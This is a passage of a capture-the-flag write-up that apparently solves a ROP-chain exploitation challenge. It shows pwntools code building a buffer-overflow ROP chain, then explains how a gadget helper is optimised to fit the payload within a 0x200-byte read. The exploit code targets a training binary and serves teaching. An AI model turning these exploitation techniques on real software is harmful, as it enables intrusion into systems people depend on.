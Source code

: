 ```
# Call print file
payload += p64(pop_rdi_gadget)
payload += p64(writable_address)
payload += p64(print_file_plt)

io.sendlineafter(b">", payload)
io.interactive()
```
Unfortunately, this attack does not work for some reason...

## Payload length
When debugging the exploit, we can see that we succesfully write `flag.t` to memory, but then the ROP-chain simply stops.
There does not seem to be anything going wrong, we just run out of instructions for some reason.
Looking more into the `pwnme()` function reveals why this happens.
The vulnerable `read()` function we use to overflow the buffer reads up to `0x200` bytes.
As it turns out, our payload exceeds `0x200` bytes, and thus thus our ROP-chain is not fully read.
To solve this, we have to make our payload smaller.

This is possible by optimising the `movetargetcharintorbx()` function we created. 
Remember, this function uses the gadget `0x40062a: pop rdx; pop rcx; add rcx,0x3ef2; bextr rbx, rcx, rdx; ret;`.
This function is then used every time we write a character, so 8 times. 
Every time we use this gadget, we pop values into `rdx` and `rcx`. `rcx` is the address of the character we want to write, and changes every time.
However, `rdx` is the same value every time. We can optimise the payload length by only setting `rdx` the first time the function is called.
This can be solved by skipping the first pop instruction on all iterations except the first, which is implemented as follows (the function is now passed the iteration number):
```
def movetargetcharintorbx(target,i):
    """
    0040062a  5a                 pop     rdx {__return_addr}
    0040062b  59                 pop     rcx {arg1}
    0040062c  4881c1f23e0000     add     rcx, 0x3ef2
    00400633  c4e2e8f7d9         bextr   rbx, rcx, rdx
    00400638  c3                 retn     {arg_10}
    """
    # copies rcx into rbx based on offset and length in rdx

    if i == 0: # First iteration sets RDX, which does not change afterwards
        bextrgadgeta = 0x0040062a
        payload  = p64(bextrgadgeta)
        payload += p64(0x4000) #rdx offset en len
        payload += p64(target - 0x3ef2) #rcx 
        return payload
    else: # Can skip setting RDX
        bextrgadgetb = 0x0040062b
        payload  = p64(bextrgadgetb)
        payload += p64(target - 0x3ef2) #rcx 
        return payload
```
This change was enough to get the final payload length within `0x200` bytes. Now we can succesfully read out the flag!
The final exploit script is as follows:
```
#!/usr/bin/env python3

from pwn import *
import subprocess


def start(argv=[], *a, **kw):
```